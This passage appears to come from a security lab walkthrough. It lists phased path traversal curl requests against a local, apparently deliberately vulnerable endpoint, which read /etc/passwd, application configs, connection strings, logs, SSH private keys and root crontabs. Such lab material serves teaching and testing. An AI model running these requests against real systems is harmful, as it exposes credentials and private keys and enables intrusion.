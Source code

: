#### Phase 1: Discovery and Reconnaissance
```bash
# Test if path traversal exists
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../test.txt"

# Determine operating system
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../etc/passwd" # Linux
curl "http://localhost:5000/api/pathtraversal/vuln?filename=..\\..\\..\\windows\\win.ini" # Windows

# Map directory structure
curl "http://localhost:5000/api/pathtraversal/list/vuln?directory=."
curl "http://localhost:5000/api/pathtraversal/list/vuln?directory=.."
```

#### Phase 2: System Information Gathering
```bash
# Get system users
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../etc/passwd"

# Get system configuration
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../etc/os-release"
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../proc/version"

# Get network configuration
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../etc/hosts"
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../etc/resolv.conf"
```

#### Phase 3: Application Intelligence
```bash
# Application configuration
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../appsettings.json"
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../web.config"

# Database connection strings
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../connectionStrings.config"

# Log files for credentials
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../logs/application.log"
```

#### Phase 4: Privilege Escalation Preparation
```bash
# SSH keys
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../home/user/.ssh/id_rsa"
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../root/.ssh/authorized_keys"

# Cron jobs
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../etc/crontab"
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../var/spool/cron/crontabs/root"
```

## Impact Analysis
